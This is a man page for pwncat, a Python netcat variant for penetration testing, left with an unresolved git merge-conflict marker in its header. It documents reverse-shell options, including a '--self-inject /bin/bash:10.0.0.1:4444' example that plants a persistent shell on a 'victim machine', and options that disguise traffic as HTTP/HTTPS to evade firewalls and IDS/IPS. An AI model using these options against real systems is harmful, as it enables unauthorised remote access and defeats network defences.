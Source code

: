 <<<<<<< HEAD
.\" DO NOT MODIFY THIS FILE!  It was generated by help2man 1.47.15.
=======
.\" DO NOT MODIFY THIS FILE!  It was generated by help2man 1.47.11.
>>>>>>> Heavy refactoring
.TH PWNCAT: "1" "June 2020" "https://github.com/cytopia/pwncat" "User Commands"
.SH NAME
pwncat: \- pwncat
.SH DESCRIPTION
usage: pwncat [options] hostname port
.IP
pwncat [options] \fB\-l\fR [hostname] port
pwncat [options] \fB\-z\fR hostname port
pwncat [options] \fB\-L\fR [addr:]port hostname port
pwncat [options] \fB\-R\fR addr:port hostname port
pwncat \fB\-V\fR, \fB\-\-version\fR
pwncat \fB\-h\fR, \fB\-\-help\fR
.PP
Enhanced and comptaible Netcat implementation written in Python (2 and 3) with
connect, zero\-i/o, listen and forward modes and techniques to detect and evade
firewalls and intrusion detection/prevention systems.
.PP
If no mode arguments are specified, pwncat will run in connect mode and act as
a client to connect to a remote endpoint. If the connection to the remote
endoint is lost, pwncat will quit. See options for how to automatically reconnect.
.SS "positional arguments:"
.TP
hostname
Address to listen, forward, scan or connect to.
.TP
port
[All modes]
Single port to listen, forward or connect to.
[Zero\-I/O mode]
Specify multiple ports to scan:
Via list:  4444,4445,4446
Via range: 4444\-4446
Via incr:  4444+2
.SS "mode arguments:"
.TP
\fB\-l\fR, \fB\-\-listen\fR
[Listen mode]:
Start a server and listen for incoming connections.
If using TCP and a connected client disconnects or the
connection is interrupted otherwise, the server will
quit. See \fB\-k\fR/\-\-keep\-open to change this behaviour.
.TP
\fB\-z\fR, \fB\-\-zero\fR
[Zero\-I/0 mode]:
Connect to a remote endpoint and report status only.
Used for port scanning.
See \fB\-\-banner\fR for version detection.
.TP
\fB\-L\fR [addr:]port, \fB\-\-local\fR [addr:]port
[Local forward mode]:
This mode will start a server and a client internally.
The internal server will listen locally on specified
addr/port (given by \fB\-\-local\fR [addr:]port).
The server will then forward traffic to the internal
client which connects to another server specified by
hostname/port given via positional arguments.
(I.e.: proxies a remote service to a local address)
.TP
\fB\-R\fR addr:port, \fB\-\-remote\fR addr:port
[Remote forward mode]:
This mode will start two clients internally. One is
connecting to the target and one is connecting to
another pwncat/netcat server you have started somewhere. Once connected, it will then proxy traffic
between you and the target.
This mode should be applied on machines that block
incoming traffic and only allow outbound.
The connection to your listening server is given by
\fB\-R\fR/\-\-remote addr:port and the connection to the
target machine via the positional arguments.
.SS "optional arguments:"
.TP
\fB\-e\fR cmd, \fB\-\-exec\fR cmd
Execute shell command. Only for connect or listen mode.
.TP
\fB\-C\fR lf, \fB\-\-crlf\fR lf
Specify, 'lf', 'crlf' or 'cr' to always force replacing
line endings for input and outout accordingly. Specify
\&'no' to completely remove any line feeds. By default
it will not replace anything and takes what is entered
(usually CRLF on Windows, LF on Linux and some times
CR on MacOS).
.TP
\fB\-n\fR, \fB\-\-nodns\fR
Do not resolve DNS.
.TP
\fB\-\-send\-on\-eof\fR
Buffer data received on stdin until EOF and send
everything in one chunk.
.TP
\fB\-\-no\-shutdown\fR
Do not shutdown into half\-duplex mode.
If this option is passed, pwncat won't invoke shutdown
on a socket after seeing EOF on stdin. This is provided
for backward\-compatibility with OpenBSD netcat, which
exhibits this behavior.
.TP
\fB\-v\fR, \fB\-\-verbose\fR
Be verbose and print info to stderr. Use \fB\-v\fR, \fB\-vv\fR, \fB\-vvv\fR
or \fB\-vvvv\fR for more verbosity. The server performance will
decrease drastically if you use more than three times.
.TP
\fB\-\-info\fR type
Show additional info about sockets, IPv4/6 or TCP opts
applied to the current socket connection. Valid
parameter are 'sock', 'ipv4', 'ipv6', 'tcp' or 'all'.
Note, you must at least be in INFO verbose mode in order
to see them (\fB\-vv\fR).
.TP
\fB\-c\fR str, \fB\-\-color\fR str
Colored log output. Specify 'always', 'never' or 'auto'.
In 'auto' mode, color is displayed as long as the output
goes to a terminal. If it is piped into a file, color
will automatically be disabled. This mode also disables
color on Windows by default. (default: auto)
.TP
\fB\-\-safe\-word\fR str
All modes:
If pwncat is started with this argument, it will shut
down as soon as it receives the specified string. The
\fB\-\-keep\-open\fR (server) or \fB\-\-reconn\fR (client) options will
be ignored and it won't listen again or reconnect to you.
Use a very unique string to not have it shut down
accidentally by other input.
.SS "protocol arguments:"
.TP
\fB\-4\fR
Only Use IPv4 (default: IPv4 and IPv6 dualstack).
.TP
\fB\-6\fR
Only Use IPv6 (default: IPv4 and IPv6 dualstack).
.TP
\fB\-u\fR, \fB\-\-udp\fR
Use UDP for the connection instead of TCP.
.TP
\fB\-T\fR str, \fB\-\-tos\fR str
Specifies IP Type of Service (ToS) for the connection.
Valid values are the tokens 'mincost', 'lowcost',
\&'reliability', 'throughput' or 'lowdelay'.
.TP
\fB\-\-http\fR
Connect / Listen mode (TCP and UDP):
Hide traffic in http packets to fool Firewalls/IDS/IPS.
.TP
\fB\-\-https\fR
Connect / Listen mode (TCP and UDP):
Hide traffic in https packets to fool Firewalls/IDS/IPS.
.TP
\fB\-H\fR [str [str ...]], \fB\-\-header\fR [str [str ...]]
Add HTTP headers to your request when using \fB\-\-http\fR(s).
.SS "command & control arguments:"
.TP
\fB\-\-self\-inject\fR cmd:host:port[s]
Listen mode (TCP only):
If you are about to inject a reverse shell onto the
victim machine (via php, bash, nc, ncat or similar),
start your listening server with this argument.
This will then (as soon as the reverse shell connects)
automatically deploy and background\-run an unbreakable
pwncat reverse shell onto the victim machine which then
also connects back to you with specified arguments.
Example: '\-\-self\-inject /bin/bash:10.0.0.1:4444'
It is also possible to launch multiple reverse shells by
specifying multiple ports.
Via list:  \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444,4445,4446
Via range: \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444\-4446
Via incr:  \fB\-\-self\-inject\fR /bin/sh:10.0.0.1:4444+2
Note: this is currently an experimental feature and does
not work on Windows remote hosts yet.
.SS "pwncat scripting engine:"
.TP
\fB\-\-script\-send\fR file
All modes (TCP and UDP):
A Python scripting engine to define your own custom
transformer function which will be executed before
sending data to a remote endpoint. Your file must
contain the exact following function which will:
be applied as the transformer:
def transform(data, pse):
.TP
# NOTE: the function name must be 'transform'
# NOTE: the function param name must be 'data'
# NOTE: indentation must be 4 spaces
# ... your transformations goes here
return data
.TP
You can also define as many custom functions or classes
within this file, but ensure to prefix them uniquely to
not collide with pwncat's function or classes, as the
file will be called with exec().
.TP
\fB\-\-script\-recv\fR file
All modes (TCP and UDP):
A Python scripting engine to define your own custom
transformer function which will be executed after
receiving data from a remote endpoint. Your file must
contain the exact following function which will:
be applied as the transformer:
def transform(data, pse):
.TP
# NOTE: the function name must be 'transform'
# NOTE: the function param name must be 'data'
# NOTE: indentation must be 4 spaces
# ... your transformations goes here
return data
.TP
You can also define as many custom functions or classes
within this file, but ensure to prefix them uniquely to
not collide with pwncat's function or classes, as the
file will be called with exec().
.SS "zero-i/o mode arguments:"
.TP
\fB\-\-banner\fR
Zero\-I/O (TCP and UDP):
Try banner grabbing during port scan.
.SS "listen mode arguments:"
.TP
\fB\-k\fR, \fB\-\-keep\-open\fR
Listen mode (TCP only):
Re\-accept new clients in listen mode after a client has
disconnected or the connection is unterrupted otherwise.
(default: server will quit after connection is gone)
.TP
\fB\-\-rebind\fR [x]
Listen mode (TCP and UDP):
If the server is unable to bind, it will re\-initialize
itself x many times before giving up. Omit the
quantifier to rebind endlessly or specify a positive
integer for how many times to rebind before giving up.
See \fB\-\-rebind\-robin\fR for an interesting use\-case.
(default: fail after first unsuccessful try).
.TP
\fB\-\-rebind\-wait\fR s
Listen mode (TCP and UDP):
Wait x seconds between re\-initialization. (default: 1)
.TP
\fB\-\-rebind\-robin\fR port
Listen mode (TCP and UDP):
If the server is unable to initialize (e.g: cannot bind
and \fB\-\-rebind\fR is specified, it it will shuffle ports in
round\-robin mode to bind to.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Set \fB\-\-rebind\fR to at least the number of ports to probe +1
This option requires \fB\-\-rebind\fR to be specified.
.SS "connect mode arguments:"
.TP
\fB\-\-source\-addr\fR addr
Specify source bind IP address for connect mode.
.TP
\fB\-\-source\-port\fR port
Specify source bind port for connect mode.
.TP
\fB\-\-reconn\fR [x]
Connect mode (TCP and UDP):
If the remote server is not reachable or the connection
is interrupted, the client will connect again x many
times before giving up. Omit the quantifier to retry
endlessly or specify a positive integer for how many
times to retry before giving up.
(default: quit if the remote is not available or the
connection was interrupted)
This might be handy for stable TCP reverse shells ;\-)
Note on UDP:
By default UDP does not know if it is connected, so
it will stop at the first port and assume it has a
connection. Consider using \fB\-\-udp\-sconnect\fR with this
option to make UDP aware of a successful connection.
.TP
\fB\-\-reconn\-wait\fR s
Connect mode (TCP and UDP):
Wait x seconds between re\-connects. (default: 1)
.TP
\fB\-\-reconn\-robin\fR port
Connect mode (TCP and UDP):
If the remote server is not reachable or the connection
is interrupted and \fB\-\-reconn\fR is specified, the client
will shuffle ports in round\-robin mode to connect to.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Set \fB\-\-reconn\fR to at least the number of ports to probe +1
This helps reverse shell to evade intrusiona prevention
systems that will cut your connection and block the
outbound port.
This is also useful in Connect or Zero\-I/O mode to
figure out what outbound ports are allowed.
.TP
\fB\-\-ping\-init\fR
Connect mode (TCP and UDP):
UDP is a stateless protocol unlike TCP, so no handshake communication takes place and the client just
sends data to a server without being "accepted" by
the server first.
This means a server waiting for an UDP client to
connect to, is unable to send any data to the client,
before the client hasn't send data first. The server
simply doesn't know the IP address before an initial
connect.
The \fB\-\-ping\-init\fR option instructs the client to send one
single initial ping packet to the server, so that it is
able to talk to the client.
This is a way to make a UDP reverse shell work.
See \fB\-\-ping\-word\fR for what char/string to send as initial
ping packet (default: '\e0')
.TP
\fB\-\-ping\-intvl\fR s
Connect mode (TCP and UDP):
Instruct the client to send ping intervalls every s sec.
This allows you to restart your UDP server and just wait
for the client to report back in. This might be handy
for stable UDP reverse shells ;\-)
See \fB\-\-ping\-word\fR for what char/string to send as initial
ping packet (default: '\e0')
.TP
\fB\-\-ping\-word\fR str
Connect mode (TCP and UDP):
Change the default character '\e0' to use for upd ping.
Single character or strings are supported.
.TP
\fB\-\-ping\-robin\fR port
Connect mode (TCP and UDP):
Instruct the client to shuffle the specified ports in
round\-robin mode for a remote server to ping.
This might be handy to scan outbound allowed ports.
Use comma separated string such as '80,81,82,83', a range
of ports '80\-83' or an increment '80+3'.
Use \fB\-\-ping\-intvl\fR 0 to be faster.
.TP
\fB\-\-udp\-sconnect\fR
Connect mode (UDP only):
Emulating stateful behaviour for UDP connect phase by
sending an initial packet to the server to validate if
it is actually connected.
By default, UDP will simply issue a connect and is not
aware if it is really connected or not.
The default connect packet to be send is '\e0', you
can change this with \fB\-\-udp\-sconnect\-word\fR.
.TP
\fB\-\-udp\-sconnect\-word\fR [str]
Connect mode (UDP only):
Change the the data to be send for UDP stateful connect
behaviour. Note you can also omit the string to send an
empty packet (EOF), but be aware that some servers such
as netcat will instantly quit upon receive of an EOF
packet.
The default is to send a null byte sting: '\e0'.
.SS "misc arguments:"
.TP
\fB\-h\fR, \fB\-\-help\fR
Show this help message and exit
.TP
\fB\-V\fR, \fB\-\-version\fR
Show version information and exit
